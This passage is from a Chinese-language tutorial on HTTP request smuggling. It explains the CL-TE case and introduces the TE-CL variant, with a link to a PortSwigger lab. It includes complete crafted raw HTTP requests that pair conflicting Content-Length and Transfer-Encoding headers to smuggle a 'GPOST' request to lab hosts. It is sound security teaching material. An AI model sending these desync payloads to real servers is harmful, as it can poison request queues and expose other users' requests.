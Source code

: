 ```
G
```

连续发送几次请求就可以获得该响应。

![1594912302](http%E8%B5%B0%E7%A7%81/1594912302.png)

由于前端服务器处理`Content-Length`，所以这个请求对于它来说是一个完整的请求，请求体的长度为6，也就是

```
0\r\n
\r\n
G
```

当请求包经过代理服务器转发给后端服务器时，后端服务器处理`Transfer-Encoding`，当它读取到`0\r\n\r\n`时，认为已经读取到结尾了，但是剩下的字母`G`就被留在了缓冲区中，等待后续请求的到来。当我们重复发送请求后，发送的请求在后端服务器拼接成了类似下面这种请求。

```
GPOST / HTTP/1.1\r\n
Host: ace01fcf1fd05faf80c21f8b00ea006b.web-security-academy.net\r\n
......
```

服务器在解析时当然会产生报错了。

### 3.4 TE-CL

所谓`TE-CL`，就是当收到存在两个请求头的请求包时，前端代理服务器处理`Transfer-Encoding`这一请求头，而后端服务器处理`Content-Length`请求头。

Lab地址：https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

构造数据包

```
POST / HTTP/1.1\r\n
Host: acf41f441edb9dc9806dca7b00000035.web-security-academy.net\r\n
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0\r\n
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n
Accept-Language: en-US,en;q=0.5\r\n
Cookie: session=3Eyiu83ZSygjzgAfyGPn8VdGbKw5ifew\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
GPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```
